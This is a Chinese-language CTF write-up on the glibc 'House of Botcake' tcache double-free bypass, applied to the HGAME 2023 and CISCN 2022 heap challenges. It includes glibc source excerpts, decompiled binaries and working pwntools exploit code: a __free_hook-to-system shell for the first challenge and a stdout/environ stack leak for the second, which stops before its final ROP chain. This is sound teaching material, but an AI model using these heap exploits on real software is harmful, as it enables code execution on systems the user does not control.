House of Botcake

* * *

# House of Botcake

## 背景知识

glibc2.29～glibc2.31，tcache加入了 key 值来进行 double free 检测，以至于在旧版本时的直接进行 double free 变的无效，所以自然就有了绕过方法，绕过方法其中比较典型的就是 house of botcake，他的本质也是通过 UAF 来达到绕过的目的

## Tcache 检查

源码来自glibc2.31

```plain
typedef struct tcache_entry
{
  struct tcache_entry *next;  //链表指针，对应chunk中的fd字段
  /* This field exists to detect double frees.  */
  struct tcache_perthread_struct *key;  //指向所属的tcache结构体，对应chunk中的bk字段
} tcache_entry;
```

对于每一个 tcache 中的chunk，增加了一个key指针，用于指向所属的 tcache 结构体：

```plain
static __always_inline void
tcache_put(mchunkptr chunk, size_t tc_idx)
{
  tcache_entry *e = (tcache_entry *)chunk2mem(chunk);

  /* Mark this chunk as "in the tcache" so the test in _int_free will
     detect a double free.  */
  e->key = tcache;  //设置所属的tcache

  e->next = tcache->entries[tc_idx];//单链表头插法
  tcache->entries[tc_idx] = e;  

  ++(tcache->counts[tc_idx]); //计数增加
}
```

```plain
size_t tc_idx = csize2tidx(size);
//只要tcache不为空，并且这个chunk属于tcache管辖范围，那么这个chunk就有可能已经在tcache中了，所以需要double free检查
if (tcache != NULL && tc_idx < mp_.tcache_bins)
{
  /* Check to see if it's already in the tcache.  */
  tcache_entry *e = (tcache_entry *)chunk2mem(p);

  /*
    如果是double free，那么put时key字段被设置了tcache，就会进入循环被检查出来
    如果不是，那么key字段就是用户数据区域，可以视为随机的，只有1/(2^size_t)的可能行进入循环，然后循环发现并不是double free
  */
  if (__glibc_unlikely(e->key == tcache))//剪枝
  {
    tcache_entry *tmp;
    LIBC_PROBE(memory_tcache_double_free, 2, e, tc_idx);
    for (tmp = tcache->entries[tc_idx]; tmp; tmp = tmp->next)
      if (tmp == e)
        malloc_printerr("free(): double free detected in tcache 2");
  }

  if (tcache->counts[tc_idx] < mp_.tcache_count)  //通过检查，放入tcahce中
  {
    tcache_put(p, tc_idx);
    return;
  }
}
```

在 free chunk 被放入 tcache 时，程序会设置一个 key 值  
每次程序把 new free chunk 放入 tcache 前，都会检查一下它是否携带有 key 值  
注意：key 值原本的位置是用户数据区（可以认为是随机值），有极小的概率会触发检查报错

所以如果想继续利用 Tcache Double Free 的话，一般有以下方法：  
1.破坏掉被 free 的堆块中的 key，绕过检查（常用）  
2.改变被 free 的堆块的大小，遍历时进入另一 idx 的 entries  
3.House of botcake（常用）

House of botcacke 合理利用了 Tcache 和 Unsortedbin 的机制，同一堆块第一次 Free 进 Unsortedbin 避免了 key 的产生，第二次 Free 进入 Tcache，让高版本的 Tcache Double Free 再次成为可能。  
此外 House of botcake 在条件合适的情况下，极其容易完成多次任意分配堆块，是相当好用的手法。

## 利用姿势

通常的利用思路就是，填充完 tcache bin 链表后，然后把一个chunkA free到 unsorted bin 中，然后把这一个chunkA 上面紧邻的chunkB free掉，这样A、B就会合并，unsorted bin中的fd指针就从chunkA 的fd指针，变成了chunkB 的fd指针，之后我们先申请一个chunk 在tcache bin中给chunk A 留下空间，利用 House of Botcake 的原理再free chunkA, 这时候chunk A 已经double free 了，然后我们可以在unsoreted bin中申请一个比较大的空间，通过chunkB、chunkA 的相邻来改变chunkA 的fd指针

## HGAME 2023 week2 new\_fast\_note

### ida

```plain
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // [rsp+14h] [rbp-Ch] BYREF
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  init(argc, argv, envp);
  while ( 1 )
  {
    menu(*(_QWORD *)&argc);
    *(_QWORD *)&argc = "%d";
    __isoc99_scanf("%d", &v3);
    if ( v3 == 4 )
      exit(0);
    if ( v3 > 4 )
    {
LABEL_12:
      *(_QWORD *)&argc = "Wrong choice!";
      puts("Wrong choice!");
    }
    else
    {
      switch ( v3 )
      {
        case 3:
          show_note("%d", &v3);
          break;
        case 1:
          add_note();
          break;
        case 2:
          delete_note("%d", &v3);
          break;
        default:
          goto LABEL_12;
      }
    }
  }
}
```

```plain
unsigned __int64 add_note()
{
  unsigned int v0; // ebx
  unsigned int v2; // [rsp+0h] [rbp-20h] BYREF
  _DWORD size[7]; // [rsp+4h] [rbp-1Ch] BYREF

  *(_QWORD *)&size[1] = __readfsqword(0x28u);
  printf("Index: ");
  __isoc99_scanf("%u", &v2);
  if ( v2 <= 0x13 )                  //限制数量为 19
  {
    printf("Size: ");
    __isoc99_scanf("%u", size);
    if ( size[0] <= 0xFFu )
    {
      v0 = v2;
      *((_QWORD *)&notes + v0) = malloc(size[0]);
      printf("Content: ");
      read(0, *((void **)&notes + v2), size[0]);
    }
    else
    {
      puts("Too big.");
    }
  }
  else
  {
    puts("There are only 20 pages in this notebook.");
  }
  return __readfsqword(0x28u) ^ *(_QWORD *)&size[1];
}
```

```plain
unsigned __int64 __fastcall delete_note(const char *a1)
{
  unsigned int v2; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Index: ");
  __isoc99_scanf("%u", &v2);
  if ( v2 <= 0xF )
  {
    if ( *((_QWORD *)&notes + v2) )
      free(*((void **)&notes + v2));
    else
      puts("Page not found.");
  }
  else
  {
    puts("There are only 16 pages in this notebook.");
  }
  return __readfsqword(0x28u) ^ v3;
}
```

```plain
unsigned __int64 __fastcall show_note(const char *a1)
{
  unsigned int v2; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Index: ");
  __isoc99_scanf("%u", &v2);
  if ( v2 <= 0xF )
  {
    if ( *((_QWORD *)&notes + v2) )
      puts(*((const char **)&notes + v2));
    else
      puts("Page not found.");
  }
  else
  {
    puts("There are only 16 pages in this notebook.");
  }
  return __readfsqword(0x28u) ^ v3;
}
```

没有什么限制，也比较好分析

### 思路

基本上和上面的利用姿势是一致的

### 详细流程

```plain
for i in range(7):
    add(i,0x80,'a')

add(7,0x80,'a')
add(8,0x80,'a')
add(9,0x20,'b')

for i in range(7):
    delete(i) 

delete(8)
show(8)

libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x1ecbe0
__free_hook=libc_base+libc.sym["__free_hook"]
system_addr=libc_base+libc.sym["system"]
leak("libc_base ",libc_base)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230703212501-0345e06e-19a5-1.png)  
先泄露个libc基地址

```plain
delete(7)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230703212525-11bfaf8a-19a5-1.png)  
能看到合并的chunk

[](https://xzfile.aliyuncs.com/media/upload/picture/20230703212534-171ce830-19a5-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230703212540-1ade2452-19a5-1.png)

```plain
add(10,0x80,'a')
```

留下一个空间

[](https://xzfile.aliyuncs.com/media/upload/picture/20230703212557-24a67688-19a5-1.png)

```plain
delete(8)
```

```plain
double free
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230703212611-2d08693a-19a5-1.png)

```plain
payload='a'*0x80+p64(0)+p64(0x91)+p64(__free_hook)
add(11,0xa0,payload)
```

直接申请一个较大的chunk去覆盖就可以了

[](https://xzfile.aliyuncs.com/media/upload/picture/20230703212655-4774ba44-19a5-1.png)

```plain
add(12,0x80,'/bin/sh\x00')
add(13,0x80,p64(system_addr))
delete(12)
```

申请写入 '/bin/sh\\x00' ，改 free\_hook 为 system，free一下直接 getshell

[](https://xzfile.aliyuncs.com/media/upload/picture/20230703212719-560b63dc-19a5-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
#p=remote('node1.anna.nssctf.cn',28531)
elf = ELF('./pwn')
libc=ELF('./libc-2.31.so')
#libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

def add(idx,size,content):
    sla('>',str(1))
    sla('Index: ',str(idx))
    sla('Size: ',str(size))
    sa('Content: ',content)

def delete(idx):
    sla('>',str(2))
    sla('Index: ',str(idx))

def show(idx):
    sla('>',str(3))
    sla('Index: ',str(idx))

def duan():
    gdb.attach(p)
    pause()
def duan():
    gdb.attach(p)
    pause()

#=================
# libc-2.31
# house of botcake
#=================

for i in range(7):
    add(i,0x80,'a')

add(7,0x80,'a')
add(8,0x80,'a')
add(9,0x20,'b')

for i in range(7):
    delete(i) 

delete(8)
show(8)
libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x1ecbe0
__free_hook=libc_base+libc.sym["__free_hook"]
system_addr=libc_base+libc.sym["system"]
leak("libc_base ",libc_base)

delete(7)

add(10,0x80,'a')

delete(8) # tcahcebin unsortedbin

payload='a'*0x80+p64(0)+p64(0x91)+p64(__free_hook)
add(11,0xa0,payload)

add(12,0x80,'/bin/sh\x00')
add(13,0x80,p64(system_addr))
delete(12)
'''
'''
#duan()
p.interactive()
```

## CISCN 2022 华东北分区赛 blue

### ida

```plain
line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x05 0xc000003e  if (A != ARCH_X86_64) goto 0007
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x02 0xffffffff  if (A != 0xffffffff) goto 0007
 0005: 0x15 0x01 0x00 0x0000003b  if (A == execve) goto 0007
 0006: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0007: 0x06 0x00 0x00 0x00000000  return KILL
```

```plain
Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

```plain
void __fastcall __noreturn main(const char *a1, char **a2, char **a3)
{
  int v3; // [rsp+Ch] [rbp-4h]

  sandbox();
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      v3 = choice(a1, a2);
      if ( v3 != 666 )
        break;
      UAF();   //只有一次
    }
    if ( v3 > 666 )
    {
LABEL_13:
      a1 = "Invalid choice\n";
      libc_puts("Invalid choice\n");
    }
    else if ( v3 == 3 )
    {
      show();       //只有一次
    }
    else
    {
      if ( v3 > 3 )
        goto LABEL_13;
      if ( v3 == 1 )
      {
        add();
      }
      else
      {
        if ( v3 != 2 )
          goto LABEL_13;
        delete();
      }
    }
  }
}
```

```plain
__int64 UAF()
{
  unsigned int v1; // [rsp+Ch] [rbp-4h]

  if ( dword_4070 > 0 )
  {
    puts("ERROR");
    _exit(0);
  }
  libc_puts("Please input idx: ");
  v1 = choice();
  if ( v1 <= 0x20 && dword_4180[v1] && *(&qword_4080 + v1) )
  {
    free(*(&qword_4080 + v1));
    ++dword_4070;                  //只能运行一次
    return libc_puts("DONE!\n");
  }
  else
  {
    libc_puts("ERROR\n");
    return 0xFFFFFFFFLL;
  }
}
```

```plain
__int64 sub_138A()
{
  int i; // [rsp+0h] [rbp-10h]
  unsigned int size[3]; // [rsp+4h] [rbp-Ch]

  libc_puts("Please input size: ");
  *size = choice();
  if ( size[0] > 0x90 )                         // chunk 申请的 size 不能大于 0x90
    size[0] = 144;
  *&size[1] = malloc(size[0]);
  if ( *&size[1] )
  {
    libc_puts("Please input content: ");
    sub_1354(*&size[1], size[0]);
    for ( i = 0; i <= 31; ++i )
    {
      if ( !qword_4080[i] && !dword_4180[i] )
      {
        qword_4080[i] = *&size[1];
        dword_4180[i] = size[0];
        libc_puts("Done\n");
        return i;
      }
    }
    return libc_puts("Empty\n");
  }
  else
  {
    libc_puts("Malloc Error\n");
    return 0xFFFFFFFFLL;
  }
}
```

```plain
__int64 sub_1592()
{
  unsigned int v1; // [rsp+Ch] [rbp-4h]

  libc_puts("Please input idx: ");
  v1 = choice();
  if ( v1 <= 0x20 && dword_4180[v1] && qword_4080[v1] )
  {
    free(qword_4080[v1]);
    qword_4080[v1] = 0LL;
    dword_4180[v1] = 0;
    return libc_puts("DONE!\n");
  }
  else
  {
    libc_puts("ERROR\n");
    return 0xFFFFFFFFLL;
  }
}
```

```plain
__int64 sub_14C5()
{
  unsigned int v1; // [rsp+Ch] [rbp-4h]

  if ( dword_406C > 0 )
  {
    puts("ERROR");
    _exit(0);
  }
  libc_puts("Please input idx: ");
  v1 = choice();
  if ( v1 <= 0x20 && dword_4180[v1] && qword_4080[v1] )
  {
    libc_puts(qword_4080[v1]);
    ++dword_406C;                 //只能运行一次
    return libc_puts("Done!\n");
  }
  else
  {
    libc_puts("ERROR\n");
    return 0xFFFFFFFFLL;
  }
}
```

限制：  
1.add 申请size <= 0x90  
2.开启了sandbox  
3.只有一次UAF  
4.只有一次show

### 思路

主要是是通过在unsorted bin中向前合并堆块，以此来申请chunk 改变UAF存留在tcache bin中的指针，然后申请第二次就可以修改 \_IO\_2\_1_stdout_ 结构体，用 environ 泄露出栈地址以获得程序的返回地址，然后把重叠的堆块再次释放，修改size和fd后再申请两次，在第二次直接传入在程序返回地址处构造的orw链就能成功getshell了。

### 详细流程

```plain
for i in range(7):
    add(0x80,'aaaa')

add(0x80,'aaaa')
add(0x80,'aaaa')
add(0x80,'aaaa')
add(0x10,'aaaa')

for i in range(7):
    delete(i)
```

先填满tcache bin，然后为下面的合并申请几个chunk

[](https://xzfile.aliyuncs.com/media/upload/picture/20230703212940-a9932a62-19a5-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230703212945-acd4737a-19a5-1.png)

```plain
UAF(8)
show(8)

libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x1ecbe0
leak("libc_base ",libc_base)
stdout = libc_base + libc.sym['_IO_2_1_stdout_']

environ = libc_base + libc.sym['environ']
leak('environ ',environ)
read_addr = libc_base + libc.sym['read']
open_addr = libc_base + libc.sym['open']
puts_addr = libc_base + libc.sym['puts']

pop_rdi_ret = libc_base + 0x0000000000023b6a
pop_rsi_ret = libc_base + 0x000000000002601f
pop_rdx_ret = libc_base + 0x0000000000142c92
```

然后UAF泄露一下libc\_base

[](https://xzfile.aliyuncs.com/media/upload/picture/20230703213000-b5a3c44c-19a5-1.png)

```plain
delete(7)
```

合并一下chunk  
合并前：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230703213029-c6db6ef4-19a5-1.png)  
合并后：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230703213039-ccc26796-19a5-1.png)

```plain
add(0x80,'aaaa') #0
```

然后留出一个空位打 House of Botcake

[](https://xzfile.aliyuncs.com/media/upload/picture/20230703213054-d60ccf8a-19a5-1.png)

```plain
delete(8)
```

这时候两个堆块已经重叠了

[](https://xzfile.aliyuncs.com/media/upload/picture/20230703213108-de764c00-19a5-1.png)

```plain
add(0x70,'aaaa') #1
add(0x90,p64(0)+p64(0x91)+p64(stdout)) #2
```

然后修改UAF留下的指针

[](https://xzfile.aliyuncs.com/media/upload/picture/20230703213121-e6096b78-19a5-1.png)

```plain
add(0x80,'aaaa') #3
add(0x80,p64(0xfbad1887)+p64(0)*3+p64(environ)+p64(environ+8)) #4
stack_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))-0x128
leak('stack_addr ',stack_addr)
```

申请一次，后再申请一次来修改 \_IO\_2\_1_stdout_ 的结构体，这里是伪造了一下 \_flags ，并且覆盖\_IO\_read\_ptr、\_IO\_read\_end、\_IO\_read\_base这三个指针为0 ，覆盖\_IO\_write\_base指针为 environ ，覆盖 \_IO\_write\_ptr 指针为 比environ大的数(environ+8)，这时候就会泄露出 \_IO\_write\_base指针与\_IO\_write\_ptr指针之间的所有数据 (也就是environ的地址)\[这里的知识点，我在 Io leak那篇文章中详细展开过\]，这里-0x128计算的是程序返回地址-0x8，-0x8是为了写 './flag\\x00\\x00'

```plain
delete(3)
delete(2)
```

然后把重叠的堆块再释放(本来是chunk1、2重叠，这个是伪造的2、3重叠)

